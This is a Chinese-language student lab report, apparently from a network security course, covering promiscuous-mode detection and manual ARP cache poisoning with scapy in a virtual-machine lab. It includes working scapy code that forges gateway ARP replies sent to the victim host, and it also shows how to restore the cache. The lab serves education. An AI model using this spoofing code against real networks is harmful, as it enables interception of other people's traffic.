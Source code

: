 ## 实验四 网络监听

### 网络拓扑

身份 | 虚拟机名称 |   IP  | MAC地址
-|-|-|-
网关 | Debian 10 | 172.16.111.1 | 08:00:27:b9:87:bc|
攻击者主机 | attacker-kali | 172.16.111.25 |08:00:27:01:aa:fc |
目标靶机 | Victim-Kali-1 | 172.16.111.107 | 08:00:27:65:d0:dd |

![](img/1.png)

![](img/2.png)

![](img/3.png)
### 实验准备

#### 安装scapy

1.在攻击者主机上提前安装好 scapy
`sudo apt update && sudo apt install python3 python3-pip`

![](img/4.png)

![](img/5.png)

`pip3 install scapy[complete]`

![](img/6.png)

#### 实验一：检测局域网中的异常终端
1.在受害者主机上检查网卡的「混杂模式」是否启用
`ip link show eth0`

![](img/7.png)

2.在攻击者主机上开启 scapy
`scapy`

![](img/8.png)

3.在 scapy 的交互式终端输入以下代码回车执行
`pkt = promiscping("172.16.111.107")`

* 使用`sudo su`切换root用户，否则会报错提升权限不够
![](img/9.png)

4.回到受害者主机上开启网卡的「混杂模式」

![](img/10.png)

此时发现输出结果里多出来了promisc
`ip link show eth0`
![](img/11.png)

5.回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异
`pkt = promiscping("172.16.111.107")`
![](img/12.png)

6.在受害者主机上手动关闭网卡的「混杂模式」
`sudo ip link set eth0 promisc off`

#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1.获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
```

# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

```

![](img/13.png)

![](img/14.png)

![](img/15.png)

2.伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)


```
3.在受害者主机上查看 ARP 缓存
![](img/16.png)
没有被毒化，构造时需要加Ethernet帧头。再次在受害者主机上查看 ARP 缓存，网关的 MAC 地址已被替换为攻击者主机的 MAC 地址。
`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")`
![](img/17.png)
![](img/18.png)


4.恢复受害者主机的 ARP 缓存记录
```

# 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b9:87:bc", pdst="172.16.111.107", hwdst="08:00:27:65:d0:dd")

sendp(restorepkt1, count=100, inter=0.2)

```
![](img/19.png)
5.在受害者主机上“刷新”网关 ARP 记录

```
# 在受害者主机上ping网关
ping 172.16.111.1
# 静候几秒 ARP 缓存刷新成功，退出 ping
#  查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
### 实验问题及解决方案

1.安装pip3时报错：Resolving failed: Temporary failure in name resolution
![](img/error1-1.png)
![](img/error1-1.png)

参考网址：

https://www.cnblogs.com/attlia/p/3660752.html

https://blog.csdn.net/weixin_45588247/article/details/115762297

https://blog.csdn.net/CliffordR/article/details/89207778


2.使用scapy缺少权限
![](img/error2-1.png)
![](img/error2-2.png)

参考网址：

https://blog.csdn.net/weixin_45515936/article/details/114328920

3.如何做到kali linux 物理机和虚拟机相互复制粘贴

参考网址：

https://blog.csdn.net/weixin_44114370/article/details/89196011


### 参考资料

1.https://github.com/CUCCS/2020-ns-public-Annna777/blob/chap0x04/chap0x04/chap04.md


2.https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html
